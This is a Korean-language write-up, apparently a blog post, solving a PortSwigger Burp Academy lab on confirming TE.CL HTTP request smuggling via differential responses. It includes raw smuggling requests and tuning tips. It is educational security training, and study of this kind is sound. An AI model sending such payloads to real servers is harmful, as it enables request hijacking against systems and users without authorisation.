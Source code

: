 ```yaml
---
layout: post
title: "Burp Academy-HTTP Request Smuggling 관련 취약점: Confirming TE.CL vulnerabilities using differential responses"
categories: [보안취약점, Burp Academy]
tags: [보안취약점, Burp Academy, HTTP Request Smuggling]
toc: true
last_modified_at: 2024-01-09 09:00:00 +0900
---
```


# 개요
- HTTP Request Smuggling 취약점 문제이다. 
- 문제 주소: https://portswigger.net/web-security/request-smuggling/finding/lab-confirming-te-cl-via-differential-responses
- 취약점 설명페이지1: https://portswigger.net/web-security/request-smuggling
- 취약점 설명페이지2: https://portswigger.net/web-security/request-smuggling/finding
- 난이도: PRACTITIONER (보통)

# 취약점 개요
- Burp Academy 에서는 HTTP Request Smuggling을 탐지하는 단계를 세 단계로 나눠서 가르치고 있다. 
- Indentifying과 Confirming, Exploiting이 그 것이다. Indentifying은 식별, Confirming은 확신정도로 이해하면 되겠다. Exploiting은 취약점을 악용하는 단계다.
- Indentifying에서는 타임아웃이 발생하는가를 주로 보고, Confirming에서는 실제로 HTTP요청을 밀반입해서 밀반입한 요청에 대한 HTTP응답이 돌아오는지를 본다. (따라서 오리지널 요청과 밀반입용 요청은 각각 다른 HTTP응답코드가 돌아오는 요청이어야 한다.)
- 예를 들어, TE.CL Confirm용의 HTTP요청은 다음과 같이 생겼다. 

```http
POST /search HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked

7c
GET /404 HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 144

x=
0

```

- 프론트엔드는 TE를 보므로 마지막 `0\r\n\r\n`까지를 하나의 요청으로 인식한다. 백엔드에서는 CL을 보므로 4바이트인 `7c\r\n`까지를 첫번째 요청으로 인식한다. `GET /404` 부터는 별도 요청으로 인식해서 다음순서의 HTTP 요청에 대해서 404응답을 회신한다. 
- 404응답이 돌아오면 스머글링이 성공했다고 확신(Confirm)할 수 있다.
- 이 랩에서는 HTTP Request Smuggling 컨펌용 요청(TE.CL패턴)을 사용하는 것을 실습한다. 

# 랩 개요
- 이 랩은 프론트 엔드 서버와 백엔드 서버로 구성되어 있다. 백엔드서버는 chunked encoding(TE헤더)를 지원하지 않는다. 
- 랩을 풀려면 백엔드 서버에게 HTTP요청을 밀반입해서, `/` 요청을 보냈을 때 404응답이 돌아오도록 하면 된다. 

```
This lab involves a front-end and back-end server, and the back-end server doesn't support chunked encoding.

To solve the lab, smuggle a request to the back-end server, so that a subsequent request for / (the web root) triggers a 404 Not Found response.
```

# 도전
1. 취약점 설명에 있는 TE.CL Confirm용 페이로드를 그대로 사용해보자. 다음과 같이 된다. 

```http
POST / HTTP/1.1
Host: 0a4c000d04892e60825ee26500a0001a.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked

7c
GET /404 HTTP/1.1
Host: 0a4c000d04892e60825ee26500a0001a.web-security-academy.net
Content-Length: 144

x=
0

```

※ **TE.CL 요청에서는 CL헤더의 값이 업데이트되지 않는 것이 중요하다.** Repeater에서 Update Content-Length 옵션을 끈다. 

2. 요청을 보내면 왜인지 Read 타임아웃이 발생한다. 

![HTTP 요청 스머글링 시도](/images/burp-academy-hrs-5-1.png)

3. GET 부분을 따로 보내본다. 그러면 GET 요청시는 Body가 있으면 안된다는 응답이 돌아오는 것을 볼 수 있다. 

![HTTP 요청 스머글링 시도](/images/burp-academy-hrs-5-2.png)

4. 정답을 참고해서 스머글링용 요청의 메소드를 GET에서 POST로 변경한다. Host헤더도 없앤다. 요청을 보내보면 처음엔 200응답이, 두번째는 404응답이 되는 것을 볼 수 있다. 

![HTTP 요청 스머글링 시도](/images/burp-academy-hrs-5-3.png)

5. 웹 브라우저를 리로드하면 문제가 풀린 것을 알 수 있다. 

![풀이 성공](/images/burp-academy-hrs-5-success.png)
